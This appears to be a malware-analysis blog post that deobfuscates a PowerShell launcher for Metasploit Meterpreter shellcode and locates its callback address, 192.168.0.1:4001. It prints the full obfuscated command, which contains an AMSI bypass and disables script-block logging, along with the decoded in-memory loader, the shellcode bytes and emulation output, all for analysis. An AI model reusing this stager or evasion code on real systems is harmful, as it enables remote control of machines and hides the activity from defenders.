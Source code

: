 ```yaml
---
tags: PowerShell-Analysis
---
```

## Meterpreter Shellcode Obfuscated in PowerShell
Taking apart a Meterpreter Payload encoded within an obfuscated PowerShell script.

Below is an example of a command line which is often associated with exploitation attempts via Metasploit

```powershell
C:\\Windows\\SysWOW64\\cmd.exe /c powershell.exe -nop -w hidden -noni -c <!#-- if([IntPtr]::Size -eq 4){$b=$env:windir+'\\sysnative\\WindowsPowerShell\\v1.0\\powershell.exe'}else{$b='powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c
$x_wa3=((''Sc''+''{2}i''+''pt{1}loc{0}Logg''+''in''+''g'')-f''k'',''B'',''r'');If($PSVersionTable.PSVersion.Major -ge 3){ $sw=((''E''+''nable{3}''+''c{''+''1}''+''ip{0}Bloc{2}Logging''+'''')-f''t'',''r'',''k'',''S''); $p8=[Collections.Generic.Dictionary[string,System.Object]]::new();
$gG0=((''Ena''+''ble{2}c{5}i{3}t{''+''4}loc''+''{0}{1}''+''nv''+''o''+''cationLoggi''+''ng'')-f''k'',''I'',''S'',''p'',''B'',''r''); $jXZ4D=[Ref].Assembly.GetType(((''{0}y''+''s''+''tem.{1}a''+''n''+''a{4}ement.A{5}t''+''omati''+''on.{2''+''}ti{3}s'')-f''S'',''M'',''U'',''l'',''g'',''u''));
$plhF=[Ref].Assembly.GetType(((''{''+''6}{''+''5}stem.''+''{''+''3''+''}{9}''+''n{9}{''+''2}ement''+''.{''+''8}{''+''4}t{''+''7''+''}''+''m{9}ti{7}n''+''.''+''{8''+''}''+''m''+''si{0''+''}ti{''+''1}s'')-f''U'',''l'',''g'',''M'',''u'',''y'',''S'',''o'',''A'',''a''));
if ($plhF) { $plhF.GetField(((''''+''a{''+''0}''+''si{4}''+''nit{''+''1}''+''ai''+''l{2}{''+''3}'')-f''m'',''F'',''e'',''d'',''I''),''NonPublic,Static'').SetValue($null,$true); }; $lCj=$jXZ4D.GetField(''cachedGroupPolicySettings'',''NonPublic,Static''); If ($lCj) { $a938=$lCj.GetValue($null);
If($a938[$x_wa3]){ $a938[$x_wa3][$sw]=0; $a938[$x_wa3][$gG0]=0; } $p8.Add($gG0,0); $p8.Add($sw,0); $a938[''HKEY_LOCAL_MACHINE\\Software\\Policies\\Microsoft\\Windows\\PowerShell\\''+$x_wa3]=$p8; } Else { [Ref].Assembly.GetType(((''S{2}{3}''+''t''+''em''+''.Mana''+''ge''+''ment.{''+''5}
{4}to''+''mation.Scr''+''ipt{1}loc{0}'')-f''k'',''B'',''y'',''s'',''u'',''A'')).GetField(''signatures'',''NonPublic,Static'').SetValue($null,(New-Object Collections.Generic.HashSet[string])); }};&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object
System.IO.MemoryStream(,
[System.Convert]::FromBase64String(((''''H4sIA{1}wxYWUA/7VWbW/aShP9X''+''qn/waqQsHUJmJf2kkiVnjX{1}QIOJiQMkUFRt7MVsWXuJvQ5Bvf3vnfV{0}QtSkzXOvasnCXs/M''+''zp45c4ZV{1}rqC8lCh723l29s3Sn7ZOMKBopbcGW/fV5QS3WqPH0t+m42Uj4q6QNttlweYhsuTk04SRSQU2Xu1RwSKYx{0}cM{1}piVVP+UWZr{1}pGj85uvxBXKN6X0pdpj/Aaz3Gzfwe6aK{1}co9OS3IXexTKzqbBkVavnz57K2OKovq6e3CWaxWnb2sSBB1WOsrCnfNbnh5X5{0}1{0}JF3YjHfCWqMxo2G9VJGOMVGUG0O2IRseZeXIbDPB4nIiKJwuxUMkxmpJbh0Y64izwvInFcrig{0}ucFiufyfush3v0hCQ''+''QNSHYSCRHzrkOiOuiSu9nHoMXJBVkvwckR{1}Q3+paWB2xzd{1}{0}YUJYxXl/wmjjsiuwO61Tuqh{1}1jZItIqUNNnzmlx{0}2{1}k8yw/k2jGAw2ujAuA33cJ4QN9Alz/0n2GQI8{0}xbVIvxDIWbV5TFPvj4peUSzYHQse7eG1dBklRFs+IK6UghY6q7w2Wr1wBce7XgIriymn3v{0}R/wkBSqvb3vS9tHqZz12yoiHp7kMcU{0}eg7BO{1}i7KQFYNXSd3''+''CbAQZquX8A/G6hB{1}fCwm0ZMdPbqcBFQ++RkKZRy{0}kQmljyAqqrj1NJqudWh6{1}FgkAvuwd6FpaQaOQwjpvjn2xu3wHo3KH4TiuKHYCnepWFIdgRryKgsKY5p9QInj6KFsgT9dKmKAujkURbnmoDyme+b4dHsYiSlyo{0}GBw6WyJSzGTkFSUPvWIsXeoX+x/sMMBIB3MGHQQR{0}qDgsCKBMIRki8RpJpyQ6s6RAyC{0}SMB2KTSYT{0}sg1DkfZISDPv{1}k83/bKZFP2Tkl9gUoBzkCQV3GBcVZUojA''+''UokcQaK/assfpag{0}J1ORPICqUWj{0}Yy9kI1QCofjxkZSNYcpBSUSAIgZ8cDAMfnQygRHfVc7pzaC67rbdyiZbmh9sIPbgntCmwNurdq20HlguZ3Y7pltRHf+zm2PkOt98sixA3bjaUt0bNQfU91orV1Dv0yf/Wta933kjcZrl+n26ea+1op1uuvPZKwshttq9a''+''901Gy2zpv6BgCUPhvwCejufgjPoKznQ2MQG/qAnX7qXNzMGuZ8xvq1lrlezXjsf{0}ju1mq1Yw93rT1CBvea1v6qfs{1}v+25gt{1}JeO+60NugUoU54OjUNfnZtRMiuTbG/5bszH6GZ30HorzUl8/H{1}NMZj00CT3tfb7nHNrx3PrvDam{1}0bd{0}69uljDu7nrj62a3hp45J63hzM6vZOxjFvDnF9hNJzvzVqtfh038MbgyABgzfkt6q2vt6bNwP9y0uBoykaPtuN+9''+''8yd1/+OrY/voJK{0}CQ1Fs7GUjdmUovf2TYm5x+2Dcr4k6haO4jVm''+''UGZQ66{0}nTB6ZuQDbH{1}KDCKpyjm9IFBIGow+GY8FTxBh3pfxnSg2zJ5sIckBN4BHSeu5JgyGfG4{0}4F3OhWDo5mUOWwP2UldUhCX2xruj3TV0HQdfv9VbK8tcfrsO3e5g6Mhr4Q2AJz0N8lsaHkHSlq{0}8dnv''+''8ZMhj+AhToF6C9hB/svQHBAAn{0}mliiaHDODjHMj/bAiScQAnZ1OP5Cjv6U{0}RDiiNwqJVBSoh3O2VJyc37zRwmUq9{1}afrzf{1}uhx7RdfX0UqvZIh9NPy04UDMf9z{1}MwwFWDogKoyko37F5DIu+agz{0}I+0BKr''+''/J{0}/hM8TcTSCf1aptv8AyS{1}BNoI{0}AAA='')-f''L'',''E'')))),
[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);"]
```

Obfuscation is used in the form of concatenating the base64 encoded string, and gzip compression.
We can identify the value of the arrays after a given sequence by looking for the '-f' argument.

"-f''L'',''E''"

{0} = L

{1} = E

Then it's a case of getting the Base64 encoded string, removing the concatenations and replacing the array values.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b813cf1a-4d3a-4b1d-86ef-17d99456d3b5)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d8739fc4-2063-4328-a35a-b8d931da62ae)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/5108a2ac-dbb7-4ff2-a75c-c4623fc25fc8)




Next, we'll add a From Base64 and Gunzip operator to reveal the following code:

```powershell
function i5P {
        Param ($cWo8x, $ip)
        $g8lN = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')

        return $g8lN.GetMethod('GetProcAddress', [Type[]]@([System.Runtime.InteropServices.HandleRef], [String])).Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($g8lN.GetMethod('GetModuleHandle')).Invoke($null, @($cWo8x)))), $ip))
}

function ma1_D {
        Param (
                [Parameter(Position = 0, Mandatory = $True)] [Type[]] $m4AK,
                [Parameter(Position = 1)] [Type] $vGu = [Void]
        )

        $fqGV5 = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
        $fqGV5.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $m4AK).SetImplementationFlags('Runtime, Managed')
        $fqGV5.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $vGu, $m4AK).SetImplementationFlags('Runtime, Managed')

        return $fqGV5.CreateType()
}

[Byte[]]$nLQ2k = [System.Convert]::FromBase64String("/OiPAAAAYDHSieVki1Iwi1IMi1IUi3IoMf8Pt0omMcCsPGF8Aiwgwc8NAcdJde9Si1IQV4tCPAHQi0B4hcB0TAHQi0gYi1ggAdNQhcl0PEkx/4s0iwHWMcCswc8NAcc44HX0A334O30kdeBYi1gkAdNmiwxLi1gcAdOLBIsB0IlEJCRbW2FZWlH/4FhfWosS6YD///9daDMyAABod3MyX1RoTHcmB4no/9C4kAEAACnEVFBoKYBrAP/VagpowKgAAWgCAA+hieZQUFBQQFBAUGjqD9/g/9WXahBWV2iZpXRh/9WFwHQM/04Idexo8LWiVv/VagBqBFZXaALZyF//1Ys2akBoABAAAFZqAGhYpFPl/9WTU2oAVlNXaALZyF//1QHDKcZ17sM=")
[Uint32]$fal3 = 0
$lc98 = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((i5P kernel32.dll VirtualAlloc), (ma1_D @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, $nLQ2k.Length,0x3000, 0x04)

[System.Runtime.InteropServices.Marshal]::Copy($nLQ2k, 0, $lc98, $nLQ2k.length)
if (([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((i5P kernel32.dll VirtualProtect), (ma1_D @([IntPtr], [UIntPtr], [UInt32], [UInt32].MakeByRefType()) ([Bool]))).Invoke($lc98, [Uint32]$nLQ2k.Length, 0x10, [Ref]$fal3)) -eq $true) {
        $ubOb = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((i5P kernel32.dll CreateThread), (ma1_D @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lc98,[IntPtr]::Zero,0,[IntPtr]::Zero)
        [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((i5P kernel32.dll WaitForSingleObject), (ma1_D @([IntPtr], [Int32]))).Invoke($ubOb,0xffffffff) | Out-Null
}
```

This [articale](https://isc.sans.edu/diary/Fileless+Malicious+PowerShell+Sample/23081) from SANS probably does a better job of explaining the grittier details of this script.

But what we are interested in is the Base64 string.
We'll throw it into CyberChef and add a From Base64 and To Hex operator to reveal the shellcode

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/80ecde0b-f1b1-4185-a322-9f616a2fe4e7)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/7c49af16-e21f-4871-817b-017094a1c3ab)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/a544358b-3b91-426a-b8fb-d49f52f2c702)




```
fc e8 8f 00 00 00 60 31 d2 89 e5 64 8b 52 30 8b 52 0c 8b 52 14 8b 72 28 31 ff 0f b7 4a 26 31 c0 ac 3c 61 7c 02 2c 20 c1 cf 0d 01 c7 49 75 ef 52 8b 52 10 57 8b 42 3c 01 d0 8b 40 78 85 c0 74 4c 01 d0 8b 48 18 8b 58 20 01 d3 50 85 c9 74 3c 49 31 ff 8b 34 8b 01 d6 31 c0 ac c1 cf 0d 01 c7 38 e0 75 f4 03 7d f8 3b 7d 24 75 e0 58 8b 58 24 01 d3 66 8b 0c 4b 8b 58 1c 01 d3 8b 04 8b 01 d0 89 44 24 24 5b 5b 61 59 5a 51 ff e0 58 5f 5a 8b 12 e9 80 ff ff ff 5d 68 33 32 00 00 68 77 73 32 5f 54 68 4c 77 26 07 89 e8 ff d0 b8 90 01 00 00 29 c4 54 50 68 29 80 6b 00 ff d5 6a 0a 68 c0 a8 00 01 68 02 00 0f a1 89 e6 50 50 50 50 40 50 40 50 68 ea 0f df e0 ff d5 97 6a 10 56 57 68 99 a5 74 61 ff d5 85 c0 74 0c ff 4e 08 75 ec 68 f0 b5 a2 56 ff d5 6a 00 6a 04 56 57 68 02 d9 c8 5f ff d5 8b 36 6a 40 68 00 10 00 00 56 6a 00 68 58 a4 53 e5 ff d5 93 53 6a 00 56 53 57 68 02 d9 c8 5f ff d5 01 c3 29 c6 75 ee c3
```

Then with this shellcode, we can use a x86 Dissassembler to reveal the instructions.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/8408cee5-eb25-4b97-9c69-e4d3a2662760)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/00b20d83-8eba-4fba-b1de-2773dd0d4b13)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/f808fc0b-ad87-486e-a540-8a7bdcd0758d)




To find the IP which the shell will call back to, we need to look for the PUSH instructions above the MOV ESI,ESP instruction, which is above multiple PUSH RAX insutrctions

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/5a5efcb0-f9c4-4bde-a647-ccdc421dc1b4)

By taking the Hex contents of the first PUSH instruction, after 68 (Which is just the instruction to PUSH), we get C0A80001, converting this From Hex, To Decimal, we get our source IP: 192.168.0.1

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b72c9cec-eb6f-40bf-9f31-56d0b864d465)

Alternatively, we can use Speakeasy:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/4a3deab4-3618-4d5f-a89c-ab3a89abab82)

```
* exec: shellcode
0x10aa: 'kernel32.LoadLibraryA("ws2_32")' -> 0x78c00000
0x10ba: 'ws2_32.WSAStartup(0x190, 0x1203e4c)' -> 0x0
0x10d7: 'ws2_32.WSASocketA("AF_INET", "SOCK_STREAM", 0x0, 0x0, 0x0, 0x0)' -> 0x4
0x10e3: 'ws2_32.connect(0x4, "192.168.0.1:4001", 0x10)' -> 0x0
0x1100: 'ws2_32.recv(0x4, 0x1203e40, 0x4, 0x0)' -> 0x4
0x1113: 'kernel32.VirtualAlloc(0x0, 0x8, 0x1000, "PAGE_EXECUTE_READWRITE")' -> 0x50000
0x1121: 'ws2_32.recv(0x4, 0x50000, 0x8, 0x0)' -> 0x8
0x50008: Unhandled interrupt: intnum=0x3
0x50008: shellcode: Caught error: unhandled_interrupt
* Finished emulating
```








<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-48M02RY99Q"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-48M02RY99Q');
</script>


